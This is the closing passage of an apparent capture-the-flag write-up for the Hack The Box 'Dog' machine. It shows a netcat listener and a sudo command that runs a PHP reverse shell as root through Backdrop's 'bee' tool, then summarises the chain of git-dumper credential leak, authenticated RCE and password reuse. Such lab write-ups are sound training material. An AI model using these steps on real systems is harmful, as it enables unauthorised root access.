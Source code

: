 ![bee-help](/images/htb-dog/bee-help.png)

Using the `PHP PentestMonkey` reverse shell on [revshells.com](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"} we can
create another payload to give us a `root` shell!

Setup a listener as before

```bash
nc -lvnp 4444
```

In order for the `bee` command to run correctly we need to be in the
`Backdrop` root directory. Then we can run our `PHP` reverse shell payload
as `root`

```bash
cd /var/www/html
sudo /usr/local/bin/bee scr /tmp/revshell.php
```

![root-txt](/images/htb-dog/root-txt.png)

## Conclusion
By using `git-dumper`, we were able to obtain the `Backdrop CMS` version number,
as well as a username and password for the admin dashboard. These privileges
allowed us to run a publicly disclosed `Authenticated Remote Code Execution`
exploit that gave us a foothold into the machine. Reusing the same password
from the admin dashboard escalated our privilges from `www-data` to the user
`johncusack` on the server. Enumerating `sudo` privileges gave us the final
command to run arbitrary `PHP` code, giving us a `root` shell!